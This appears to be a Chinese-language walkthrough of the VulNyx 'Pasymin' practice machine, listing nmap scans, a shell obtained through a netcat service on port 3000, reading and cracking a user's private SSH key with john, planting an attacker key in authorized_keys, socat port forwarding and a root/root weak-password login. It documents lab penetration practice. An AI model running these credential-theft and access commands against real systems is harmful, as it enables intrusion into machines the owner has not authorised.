







# 环境

来自[Vulny_Pasymin](https://vulnyx.com/#Pasymin)，

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.10.0/24
```



## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.10.20
```



## 服务详情

```bash
sudo nmap -sVC -O -p22,80,3000 192.168.10.20
```



# 3000端口

## 3000端口拿shell

```bash
nc 192.168.10.20 3000
ls -alh 
!bash
```

## 获取密钥

```bash
cat /home/alfred/.ssh/id_rsa
ssh2john id_rsa >id1
john id1 --wordlist=/usr/share/wordlist/rockyou.txt
账号：alfred
密码：alfredo

#或者直接把自己的公钥写入到靶机
ssh-keygen -t rsa -b 2048
cat /home/rain/.ssh/id_rsa_pub
echo "*id_rsa_pub*">/home/alfred/.ssh/authorized_keys、

ssh alfred@192.168.10.20 -i id_rsa
```



## 端口转发

发现本地10000端口跑了一个web服务，发现只能本地访问



```bash
socat TCP-LISTEN:8888,fork TCP4:127.0.0.1:10000 &  #通过端口转发，使得外网可以访问
```


## 弱口令爆破

尝试root，root成功登录



发现有终端

